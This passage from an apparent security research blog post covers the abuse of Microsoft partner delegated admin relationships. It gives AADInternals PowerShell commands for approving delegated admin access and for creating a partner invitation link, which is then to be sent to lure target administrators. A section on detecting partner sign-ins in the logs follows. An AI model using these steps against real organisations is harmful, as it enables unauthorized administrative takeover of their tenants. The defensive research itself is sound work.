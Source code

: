 # Assign DAP for the given partner
Approve-AADIntMSPartnerDelegatedAdminRequest -Domain "partner.com"
{{< /highlight>}}

```
responseCode message
------------ -------
success 
```

## Compromising new customers

The example above requires Global administrator access to customer's tenant. But what if we don't have the needed access?
The answer is to create a link for approving the partner offer and then lure target organisation administrator to accept that. 

Again, all you need to know is any domain name or tenant id of the partner.

{{< highlight powershell >}}
# Create the delegated admin request for the given partner tenant
New-AADIntMSPartnerDelegatedAdminRequest -TenantId c7e52a77-e461-4f2e-a652-573305414be9
{{< /highlight>}}

```
https://admin.microsoft.com/Adminportal/Home?invType=Administration&partnerId=c7e52a77-e461-4f2e-a652-573305414be9#/BillingAccounts/partner-invitation
```

Now the link can be sent to any target organisations 😊

# Detecting

## Partner accessing customer organisation

### Microsoft Partner Center and API access
If the partner is accessing customers services from the Microsoft Partner Center, the login event will be shown in customer's **sign-ins (interactive)** log:

![Partners](/images/posts/partners_08.png)

As we can see, the user name is actually "<Partner tenant name> technician", and the last part of IP address is redacted. When the event is expanded, we can also see the actual user name:

![Partners](/images/posts/partners_09.png)

In partner's tenant, we can see the same event with the same **Request ID**:

![Partners](/images/posts/partners_10.png)
